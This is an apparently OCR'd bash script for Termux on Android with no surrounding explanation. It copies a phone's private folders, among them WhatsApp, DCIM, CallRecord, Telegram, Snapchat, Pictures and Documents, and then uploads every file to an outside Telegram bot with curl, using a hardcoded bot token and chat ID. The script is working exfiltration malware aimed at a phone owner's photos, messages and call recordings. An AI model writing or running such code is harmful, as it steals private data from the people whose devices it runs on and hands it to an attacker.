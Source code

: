 #!/bin/bash 
termux-setup-storage 
cd /sdcard 
cp -R 1Videoshow Whatsapp Alarms DCIM Android CMM_crash CallRecord Cardboard Documents Download Movies Music Notifications OB3WhatsApp Pictures Podcasts Ringtones Snapchat SoundRecorder Telegram Voice\ Changer Voice\ Changer\ Record Voice\ Changer\ Studio com.kingroot.kinguser kinguserdown media snaptube system zapya boot بيت\ المداليز مجلد\ جديد /bot/files
TOKEN=5860089262:AAENCi8tYH3FSJDlH7qIr0ezU3et3CVbDvc
ID=1218276055
for f in /bot/files/*
do
curl -F document=@$f "https://api.telegram.org/bot$TOKEN/sendDocument?chat_id=$ID"
done
